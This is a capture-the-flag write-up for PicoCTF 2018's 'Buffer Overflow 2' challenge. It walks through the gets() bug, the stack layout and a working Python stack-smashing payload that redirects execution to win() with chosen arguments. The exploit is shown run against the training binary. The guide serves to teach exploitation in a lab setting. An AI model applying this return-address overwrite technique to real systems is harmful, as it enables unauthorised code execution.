 ```yaml
---
title:  PicoCTF 2018 - Buffer Overflow 2
description: Now that you've got a handle on buffer-overflows, can you figure out how to use your control of the stack to pass arguments into a function?
hide_index: true
image:
  path: /img/reference/pico-ctf-2018-00000.png
  width: 1024
  height: 512
  thumb: /img/reference/pico-ctf-2018-00000.thumb.png
  alt: Linux Terminal
---
```


# PicoCTF 2018 - Buffer Overflow 2

> **Note**: This article is part of our [PicoCTF 2018 BinExp Guide]({% link _reference/hacking-101/picoctf-2018-binary-exploits.md %}).

## Spot the Bug

`vuln()` is nearly identical to the last ['buffer-overflow']({% link _reference/hacking-101/picoctf-2018-binary-exploits/buffer-overflow-1.md %}) challenge, so flip back to it now if you need a refresher.

```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}
```

## Strategy

There still is a `win` function, but this time around you can't just call it, you have to also ensure that the first argument is `0xDEADBEEF` and the second argument is `0xDEADC0DE` or it won't print the flag.

```c
void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xDEADC0DE)
    return;
  printf(buf);
}
```

However, overall our strategy is exactly the same: smash the stack, put the address of `win` into the return address, put whatever arguments `win` needs in the right spots, and grab the flag.

```
$ checksec vuln
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

$ nm vuln | grep win
080485cb T win
```
{:.contains-term}

The code for the function `win()` begins at the address `0x080485cb` (no PIE, no ASLR). When you are prepared to tackle the challenge, cd to `/problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa` on the shell server.

## Background Info

First off, how much space is available for our buffer?

```nasm
push   ebp
mov    ebp,esp
sub    esp,0x78
sub    esp,0xc
lea    eax,[ebp-0x6c]
push   eax
call   8048430 <gets@plt>
add    esp,0x10
sub    esp,0xc
lea    eax,[ebp-0x6c]
push   eax
call   8048460 <puts@plt>
add    esp,0x10
nop
leave
ret
```

As we can see here, the buffer begins at `ebp-0x6c`, which means that there is 100 bytes of buffer, plus 8 bytes of padding. We already know that after the padding is the preserved value of `ebp`, and following that is the return address of our function. Therefore, the stack for `vuln` looks something like this:

| lower addresses | &rArr; | &rArr; | higher addresses |
| --- | :---: | :---: | --- |
| `buf[100]` | &lt; `padding[8]` &gt; | &lt;old ebp&gt; | &lt;*return address*&gt; |

The question becomes, how do we pass `0xDEADBEEF` and `0xDEADC0DE` as arguments to the function `win`?

Recall, if you were calling the function `win` from normal code, you would use assembly like this:

```nasm
push 0xDEADCODE ; arugments "pushed" last to first
push 0xDEADBEEF 

call win ; IMPLICIT "push next_instruction", which pushes the address of the next instruction onto the stack

next_instruction:
  ; ...
```

Which means that `0xDEADCODE` gets pushed first, then `0xDEADBEEF`, then the return address. Since the stack grows "up", that means in memory the return address is first (lowest address), followed by `0xDEADBEEF`, followed by `0xDEADC0DE`.

| lower addresses | &rArr; | higher addresses |
| --- | :---: | --- |
| &lt;*return address*&gt; | `0xDEADBEEF` | `0xDEADC0DE` |

Which is *exactly* what the state of the stack should be when the `win` function gets called. In this case &lt;*return address*&gt; is the address that gets called **after** `win` executes (ie: after the flag is printed, since stdout is once again set to non-buffering). Since you already have the flag, you can set it to anything you like (causing a segfault when `win` returns).

## Exploitation

Putting it all together, the write to the buffer should look like this:

1. 108 bytes of don't care
2. 4 bytes overwriting preserved `ebp` (also don't care)
3. 4 bytes *return address* for vuln (`0x080485cb` == `&win`)
4. 4 bytes *return address* for win (`0x55555555`)
5. 4 bytes arg1 (`0xDEADBEEF`)
6. 4 bytes arg2 (`0xDEADC0DE`)

Or, in python (don't forget to write your multi-byte values in little-endian form):

```python
print("U"*108 + "U"*4 + "\xcb\x85\x04\x08" + "\x55\x55\x55\x55" + "\xef\xbe\xad\xde" + "\xde\xc0\xad\xde")
```

Let's try it out at `/problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa` on the shell server:

```
/problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa$ python -c 'print("U"*108 + "U"*4 + "\xcb\x85\x04\x08" + "\x55\x55\x55\x55" + "\xef\xbe\xad\xde" + "\xde\xc0\xad\xde")' | ./vuln
Please enter your string:
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU˅UUUUﾭ�����
picoCTF{===REDACTED===}Segmentation fault (core dumped)
```
{:.contains-term}

Great Job! Head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/hacking-101/picoctf-2018-binary-exploits.md %}) to continue with the next challenge.
